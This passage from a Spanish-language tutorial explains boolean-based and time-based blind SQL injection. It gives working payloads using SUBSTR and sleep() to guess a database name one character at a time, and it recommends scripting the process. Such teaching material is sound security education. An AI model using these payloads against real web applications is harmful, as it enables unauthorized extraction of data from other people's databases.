 Si queremos que desde la segunda posicion nos regrese un caracter , sera asi:

```sql
select substr((select database()), 2, 1);
```
Y si queremos que desde la primera posicion nos regrese dos caracteres, ahora es asi:

```sql
select substr((select database()), 1, 2);
```

##### Nombre de la base de datos

Y podemos usar el payload:

```sql
' AND SUBSTR(database(),1,1)="w"-- -
```
El cual esta comparando si el primer caracter del nombre la base de datos es igual a ```w``` y en caso de que sea correcto, nos devolvera TRUE y el servidor web nos respondera de cierta forma, por ejemplo, mostrando el mensaje ```Hola c4rtita```, y en caso de que no sea una letra de la base de datos y responda FALSE, entonces el mensaje ```Hola c4rtita``` ya no aparecera.

Ahora, en caso que ```w``` si sea una letra de la base de datos, entonces ahora tendremos que sacar la segunda, y usaremos el payload:

```sql
' AND SUBSTR(database(),2,1)="a"-- 
```
En esta caso vamos a comparar si la letra que se encuentra en la posicion dos del nombre de la base de datos es igual a ```a```. Y asi podemos ir adivinando el nombre de la base de datos, pero es muy tedioso, asi que en este tipo de inyecciones tendras que hacerte un script.


Para complementar la explicacion puedes leer [aqui](https://sec-art.net/2021/12/30/boolean-based-sql-injection-explained-sql-injection-series-web-security/)

### Time-Based

Son casi iguales que las Boolean-based, solo que ahora para saber si nuestra inyeccion es correcta, tendremos que esperar un cierto tiempo antes de que el servidor nos de una respuesta, y al igual que las boolean based, necesitamos que la primera expresion ```AND``` devuelva un TRUE.

Para saber si estamos ante una inyeccion de este tipo, podemos usar este payload:

```sql
' and sleep(5)-- -
```
Y si el servidor tarda 5 segundos en darnos una repuesta es por que estamos contra una inyeccion de este tipo

##### Nombre de la base de datos

Podemos usar el payload:

```sql
' AND IF(SUBSTR(database(),1,1)="w", sleep(5),1)-- -
```
Lo que esta haciendo es comparar que la primera letra del nombre de la base de datos sea ```w```, y en caso de que lo sea nos regresa TRUE, y esperara 5 segundos.
